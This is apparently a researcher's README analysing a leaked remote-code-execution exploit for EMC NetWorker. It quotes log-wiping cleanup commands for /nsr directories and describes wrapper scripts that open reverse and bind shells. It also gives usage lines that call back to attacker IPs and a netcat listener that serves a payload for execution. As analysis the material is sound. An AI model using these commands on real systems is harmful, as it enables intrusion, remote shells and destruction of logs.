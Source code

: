 # BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.



## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is run "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress currently.

![Bosslad light on the wire](assets/images/bl_light_pcap.png)

Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.
